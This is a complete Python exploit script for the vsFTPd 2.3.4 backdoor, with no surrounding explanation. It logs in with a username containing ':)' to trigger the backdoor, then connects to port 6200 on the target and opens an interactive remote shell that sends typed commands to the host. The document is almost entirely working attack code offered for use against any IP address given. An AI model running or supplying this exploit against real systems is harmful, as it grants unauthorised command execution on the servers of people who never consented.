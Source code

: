 #!/usr/bin/python3

import socket
import argparse
from signal import signal, SIGINT
from sys import exit
import time

def handler(signal_received, frame):
    # Handle any cleanup here
    print('\n[+] Exiting...')
    exit(0)

signal(SIGINT, handler)

def create_socket_connection(host, port, timeout=5):
    """Create a socket connection with timeout handling"""
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        sock.connect((host, port))
        return sock
    except Exception as e:
        print(f"[-] Connection to {host}:{port} failed: {str(e)}")
        return None

def ftp_interaction(host, port, commands):
    """Handle FTP interaction"""
    try:
        sock = create_socket_connection(host, port)
        if not sock:
            return False
            
        banner = sock.recv(1024)
        print(f"[*] FTP Banner: {banner.decode().strip()}")
        
        for cmd in commands:
            sock.send(cmd.encode('ascii') + b"\r\n")
            response = sock.recv(1024)
            print(f"[>] Sent: {cmd.strip()}")
            print(f"[<] Received: {response.decode().strip()}")
            time.sleep(0.5)
            
        sock.close()
        return True
        
    except Exception as e:
        print(f"[-] FTP interaction error: {str(e)}")
        return False

def exploit(host):
    """Main exploit function"""
    port_ftp = 21
    port_backdoor = 6200
    
    # FTP commands to trigger the backdoor
    commands = [
        "USER nergal:)",
        "PASS pass"
    ]
    
    print(f"[*] Attempting to trigger vsFTPd 2.3.4 backdoor on {host}")
    
    # Trigger the backdoor
    if not ftp_interaction(host, port_ftp, commands):
        print("[-] Failed to trigger the backdoor")
        return
        
    print("[*] Attempting to connect to backdoor on port 6200")
    
    # Try to connect to the backdoor
    try:
        backdoor_sock = create_socket_connection(host, port_backdoor, timeout=10)
        if backdoor_sock:
            print("[+] Success! Backdoor connection established")
            print("[*] Type 'exit' to quit the shell\n")
            
            # Simple interactive shell
            while True:
                try:
                    cmd = input("shell> ")
                    if cmd.lower() == 'exit':
                        break
                    backdoor_sock.send(cmd.encode() + b"\n")
                    response = backdoor_sock.recv(4096)
                    print(response.decode())
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f"[-] Error during shell interaction: {str(e)}")
                    break
                    
            backdoor_sock.close()
        else:
            print("[-] Failed to connect to backdoor. Target may not be vulnerable or port is blocked")
    except Exception as e:
        print(f"[-] Backdoor connection error: {str(e)}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='vsFTPd 2.3.4 Backdoor Exploit')
    parser.add_argument("host", help="Target IP address", type=str)
    args = parser.parse_args()
    
    exploit(args.host)

